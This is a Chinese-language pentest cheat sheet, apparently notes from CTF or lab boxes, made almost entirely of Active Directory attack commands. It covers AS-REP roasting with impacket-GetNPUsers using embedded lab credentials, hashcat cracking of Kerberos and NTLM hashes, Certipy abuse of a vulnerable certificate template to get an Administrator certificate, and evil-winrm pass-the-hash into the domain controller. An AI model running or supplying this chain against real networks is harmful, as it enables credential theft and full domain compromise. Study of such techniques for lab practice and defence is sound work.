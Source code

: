 #### Impacket-GetNPUsers

```
# 使用ldap认证，在域内查找没有开启Kerberos预身份验证用户
impacket-GetNPUsers -request -format hashcat -dc-ip 10.10.11.69 fluffy.htb/j.fleischman:J0elTHEM4n1990!

# 使用ldap认证，通过用户文件枚举哪些用户没有开启Kerberos预身份验证
impacket-GetNPUsers -usersfile ./domainusers.txt -request -format hashcat -dc-ip 10.10.11.69 fluffy.htb/j.fleischman:J0elTHEM4n1990!
```

#### Hashcat

hash类型示例：

https://hashcat.net/wiki/doku.php?id=example_hashes&source=post_page-----a9efaa755f6d---------------------------------------

```
# 破解Kerberoasting hash，-m的模式选择与etype的值有关，23对应的就是13100
hashcat -m 13100 ./ldap_svc.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# 破解AS-REP Roasting hash，除了使用rockyou.txt还可以尝试fastcrack.txt
hashcat -m 18200 ./hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# 破解NetNTLMv2 hash
hashcat -m 5600 -a 0 ./p.aglia.hash /usr/share/wordlists/rockyou.txt

# 破解NTLM hash
hashcat -m 1000 --force ca0f4f9e9eb8a092addf53bb03fc98c8 /usr/share/wordlists/rockyou.txt
```

#### Certipy-ad

在 Windows DC 上枚举 ADCS 始终是值得的，但建议使用最新版Certipy。

```bash
# 查找域用户JODIE.SUMMERS的证书模板漏洞
certipy-ad find -u JODIE.SUMMERS -p 'hHO_S9gff7ehXw' -dc-ip nara-security.com  -dns-tcp -ns 192.168.244.30 -bloodhound

# 为 Administrator 帐户重新提交证书
certipy-ad req -username JODIE.SUMMERS -password 'hHO_S9gff7ehXw' -target nara-security.com -ca NARA-CA -template NARAUSER -upn administrator@nara-security.com -dc-ip 192.168.244.30 -debug

# 尝试进行身份验证。如果命令报错参考链接：https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d。解决"域控制器没有为smart cards安装证书"问题的链接（当然主要是因为DC没有为PKINIT正确设置，导致身份验证将失败）：https://0xdf.gitlab.io/2023/12/09/htb-authority.html。
certipy-ad auth -pfx administrator.pfx -domain nara-security.com -username administrator -dc-ip 192.168.244.30

evil-winrm -i 192.168.244.30 -u 'administrator' -H 'd35c4ae45bdd10a4e28ff529a2155745'
```
